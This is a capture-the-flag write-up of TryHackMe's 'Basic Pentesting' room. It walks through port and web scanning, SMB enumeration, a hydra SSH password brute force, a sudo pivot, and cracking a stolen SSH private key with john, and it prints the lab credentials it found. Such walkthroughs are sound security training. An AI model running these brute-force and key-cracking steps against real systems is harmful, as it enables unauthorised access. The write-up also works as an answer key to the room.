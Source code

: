 <div align="center">
  
# بسم الله الرحمن الرحيم  

</div>

# TryHackMe: Basic Pentesting Writeup by Mohammed (Azima)

**Room Link:** [Basic Pentesting](https://tryhackme.com/room/basicpentestingjt)  
**Difficulty:** Easy  
**Tags:** `#WebAppSecurity` `#PrivilegeEscalation` `#CTF`

## 1. Reconnaissance

### Nikto Scan
```bash
nikto -h http://10.10.140.120/
```
Result:
![image](https://github.com/user-attachments/assets/27960e1b-c49b-4bdb-af65-cb6403c6beb3)

### Nmap Scan
```bash
nmap -sV -A -T4 <TARGET_IP>
```
Result:
It gave me Open PORTs ,     STATE used , SERVICE used and it is     VERSION


# Nmap Scan Findings - 10.10.140.120

## Open Ports and Services

### Port 22 (SSH)
- **Service**: OpenSSH 7.2p2 Ubuntu 4ubuntu2.4
- **Details**:
  - SSH host keys found (RSA, ECDSA, ED25519)
  - Ubuntu Linux OS indication

### Port 80 (HTTP)
- **Service**: Apache httpd 2.4.18 (Ubuntu)
- **Details**:
  - Server header confirms Apache/2.4.18 on Ubuntu
  - No title returned (text/html content)

### Ports 139/445 (SMB)
- **Service**: Samba smbd 4.3.11-Ubuntu
- **Details**:
  - Workgroup: WORKGROUP
  - NetBIOS computer name: BASIC2
  - Samba version: 4.3.11-Ubuntu
  - Security mode: Message signing enabled but not required
  - Guest access allowed
  - OS identification as Windows 6.1 (Samba's Windows compatibility layer)

### Port 8009 (AJP13)
- **Service**: Apache Jserv (Protocol v1.3)
- **Details**:
  - Supported methods: GET, HEAD, POST, OPTIONS

### Port 8080 (HTTP)
- **Service**: Apache Tomcat 9.0.7
- **Details**:
  - Possible open proxy
  - Tomcat default page visible

## Additional System Information
- **Hostname**: BASIC2
- **Operating System**: Linux (Ubuntu based on package versions)
- **Network Distance**: 1 hop away
- **MAC Address**: 02:5F:A2:B3:78:FD
- **System Timezone**: Appears to be set to EDT (UTC-4)

## Notes
The scan reveals a typical LAMP stack with additional services that could be potential entry points for further investigation, particularly the SMB shares and Tomcat server.
### Web Enumeration
```bash
gobuster dir -u http://<TARGET_IP> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

**Discovered:**
- `/development` - Contains two files:
  - `dev.txt` (hinted at weak credentials for user J and K)
  - `notes.txt`

## 2. Exploitation

### SMB Enumeration
```bash
smbclient -L //<TARGET_IP> -N
```
Found an anonymous share, but no useful data.

### Brute-Forcing SSH
```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://<TARGET_IP>
```

**Credentials Found:**
- **Username:** jan
- **Password:** armando

**SSH Access:**
```bash
ssh jan@<TARGET_IP>
```

## 3. Privilege Escalation

### Checking Sudo Permissions
```bash
sudo -l
```
Discovered jan could run `/bin/bash` as user kay:
```bash
sudo -u kay /bin/bash
```

### Accessing Kay's SSH Key
Found private key at `/home/kay/.ssh/id_rsa`

**Cracking Process:**
```bash
python /usr/share/john/ssh2john.py id_rsa > kay_hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt kay_hash.txt
```
**Cracked Passphrase:** `beeswax`

**Logged in as kay:**
```bash
ssh -i id_rsa kay@<TARGET_IP>
```

### Root Flag
Found in `/root/root.txt` after further enumeration.

## 4. Lessons Learned
- 🚨 **Weak Passwords:** Default credentials (jan:armando) allowed initial access
- ⚠️ **Misconfigured Sudo:** Improper sudo permissions enabled privilege escalation
- 🔑 **Exposed SSH Keys:** Private keys without strong passphrases are dangerous

---

🔗 **More Writeups:** [My GitHub Security Writeups](https://github.com/Mohammed-Abdelaziem/Writeups)
